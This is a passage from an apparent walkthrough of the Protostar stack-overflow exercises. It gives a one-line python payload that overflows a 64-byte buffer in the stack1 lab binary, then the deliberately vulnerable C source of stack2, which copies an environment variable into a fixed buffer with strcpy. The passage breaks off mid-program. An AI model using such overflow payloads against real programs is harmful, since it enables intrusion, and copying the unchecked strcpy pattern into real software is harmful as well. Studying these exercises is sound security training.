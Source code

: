 > python3 -c "import sys; sys.stdout.buffer.write(('hi' \* 32 + 'dcba').encode())" | ./stack1

On giving the above command as the input we will receive the msg:

you have correctly got the variable to the right value

  

## stack2:

  

  

     SOURCE CODE:

      #include <stdlib.h>

      #include <unistd.h>

      #include <stdio.h>

      #include <string.h>

  

      int main(int argc, char \*\*argv)

      {

       volatile int modified;

       char buffer\[64\];

       char \*variable;

  

       variable = getenv("GREENIE");

  

       if(variable == NULL) {

         errx(1, "please set the GREENIE environment variable\\n");

       }

  

       modified = 0;

  

       strcpy(buffer, variable);

  

       if(modified == 0x0d0a0d0a) {

         printf("you have correctly modified the variable\\n");

       } else {

         printf("Try again, you got 0x%08x\\n", modified);

       }

  
